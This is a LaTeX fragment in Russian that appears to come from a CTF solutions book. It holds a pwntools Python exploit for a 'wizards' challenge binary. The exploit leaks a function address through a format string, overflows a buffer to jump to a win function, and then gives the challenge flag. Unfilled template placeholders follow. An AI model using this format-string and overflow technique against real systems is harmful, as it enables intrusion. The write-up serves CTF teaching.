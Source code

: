 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Сплойт будет выглядеть примерно следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера с форматной строкой]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './wizards'
REMOTE = True

WIN_OFFSET = 0x13f
WIN_RET = 0x42


def leak_win_address(remote):
    remote.recvuntil("Enter your witch name:")
    log.info("Sending format string exploit...")
    remote.sendline("%p|" * 42)

    LEAKS = remote.recvuntil("enter your magic spell:").split("|")
    MAIN = int(LEAKS[-5], 16)
    log.info("Leaked MAIN function address: {}".format(hex(MAIN)))

    WIN = MAIN - WIN_OFFSET
    log.info("Leaked WIN function address: {}".format(hex(WIN)))

    return WIN


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    win_addr = leak_win_address(r)
    win_ret = win_addr + WIN_RET

    payload = "Expelliarmus\x00"
    payload += 'A' * cyclic_find("cnaa")
    payload += p64(win_ret)
    payload += p64(win_addr)

    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Таким образом, получаем флаг \verb|oren_ctf_Berners-Lee!|



\textbf{Теги:} <Теги>\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}




\textbf{Теги:} <Теги>\vspace{\baselineskip}
\end{document}
